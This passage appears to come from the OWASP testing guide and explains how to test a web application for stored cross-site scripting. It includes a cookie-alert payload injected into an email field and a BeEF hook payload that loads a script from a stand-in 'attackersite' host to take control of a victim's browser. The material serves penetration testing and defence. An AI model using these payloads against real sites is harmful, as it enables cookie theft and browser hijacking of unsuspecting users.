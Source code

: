     aaa@aa.com%22%3E%3Cscript%3Ealert(document.cookie)%3C%2Fscript%3E

Ensure the input is submitted through the application. This normally
involves disabling JavaScript if client-side security controls are
implemented or modifying the HTTP request with a web proxy such as
[WebScarab](OWASP_WebScarab_Project "wikilink"). It is also important to
test the same injection with both HTTP GET and POST requests. The above
injection results in a popup window containing the cookie values.

**Result Expected**:

![Image:Stored_xss_example.jpg](Stored_xss_example.jpg
"Image:Stored_xss_example.jpg")

The HTML code following the injection:

    <input class="inputbox" type="text" name="email" size="40" value="aaa@aa.com"><script>alert(document.cookie)</script>

The input is stored and the XSS payload is executed by the browser when
reloading the page. If the input is escaped by the application, testers
should test the application for XSS filters. For instance, if the string
"SCRIPT" is replaced by a space or by a NULL character then this could
be a potential sign of XSS filtering in action. Many techniques exist in
order to evade input filters (see [testing for reflected
XSS](Testing_for_Reflected_Cross_site_scripting_\(OTG-INPVAL-001\) "wikilink")
chapter). It is strongly recommended that testers refer to [XSS Filter
Evasion](XSS_Filter_Evasion_Cheat_Sheet "wikilink") ,
[RSnake](http://ha.ckers.org/xss.html) and
[Mario](https://h4k.in/encoding/) XSS Cheat pages, which provide an
extensive list of XSS attacks and filtering bypasses. Refer to the
whitepapers and tools section for more detailed information.

**Leverage Stored XSS with BeEF**

Stored XSS can be exploited by advanced JavaScript exploitation
frameworks such as [BeEF](http://www.beefproject.com), [XSS
Proxy](http://xss-proxy.sourceforge.net/) and
[Backframe](http://www.gnucitizen.org/projects/backframe/).

A typical BeEF exploitation scenario involves:

  - Injecting a JavaScript hook which communicates to the attacker's
    browser exploitation framework (BeEF)
  - Waiting for the application user to view the vulnerable page where
    the stored input is displayed
  - Control the application user’s browser via the BeEF console

The JavaScript hook can be injected by exploiting the XSS vulnerability
in the web application.

<b>Example</b>: BeEF Injection in index2.php:

    aaa@aa.com”><script src=http://attackersite/hook.js></script>

When the user loads the page index2.php, the script hook.js is executed
by the browser. It is then possible to access cookies, user screenshot,
user clipboard, and launch complex XSS attacks.
